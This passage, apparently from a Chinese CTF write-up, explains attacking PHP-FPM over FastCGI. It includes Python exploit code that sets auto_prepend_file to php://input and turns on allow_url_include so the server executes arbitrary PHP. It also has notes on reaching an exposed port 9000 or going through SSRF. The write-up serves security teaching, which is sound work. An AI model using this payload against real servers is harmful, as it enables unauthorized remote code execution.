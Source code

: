```python
   #没有默认值的必要参数  host       -f 已存在的php文件名


    args = parser.parse_args()
    
    client = FastCGIClient(args.host, args.port, 3, 0)
    params = dict()
    documentRoot = "/"
    uri = args.file
    content = args.code
    params = {
        'GATEWAY_INTERFACE': 'FastCGI/1.0',
        'REQUEST_METHOD': 'POST',
        'SCRIPT_FILENAME': documentRoot + uri.lstrip('/'),
        'SCRIPT_NAME': uri,
        'QUERY_STRING': '',
        'REQUEST_URI': uri,
        'DOCUMENT_ROOT': documentRoot,
        'SERVER_SOFTWARE': 'php/fcgiclient',
        'REMOTE_ADDR': '127.0.0.1',
        'REMOTE_PORT': '9985',
        'SERVER_ADDR': '127.0.0.1',
        'SERVER_PORT': '80',
        'SERVER_NAME': "localhost",
        'SERVER_PROTOCOL': 'HTTP/1.1',
        'CONTENT_TYPE': 'application/text',
        'CONTENT_LENGTH': "%d" % len(content),
        'PHP_VALUE': 'auto_prepend_file = php://input',
        'PHP_ADMIN_VALUE': 'allow_url_include = On'
    }
    response = client.request(params, content)
    print(force_text(response))

```

# 实战

## php-fpm-attack

PHP-FPM默认监听9000端口，如果这个端口暴露在公网，则我们可以自己构造fastcgi协议，和fpm进行通信，但这道题如果用默认的9000端口监听不能成功返回，但其实这道题在内网上还是有打开9000端口的，与外网端口号是一个映射的关系，所以这道题要加上外网的端口号。



![](https://zhuang-yongyi.gitee.io/yoyo/nep/fastcgi%E5%8D%8F%E8%AE%AE/2.png)

## EZ-CURL

如果fpm不在外网开放，我们可以通过ssrf进行攻击(如果存在ssrf漏洞的地方)
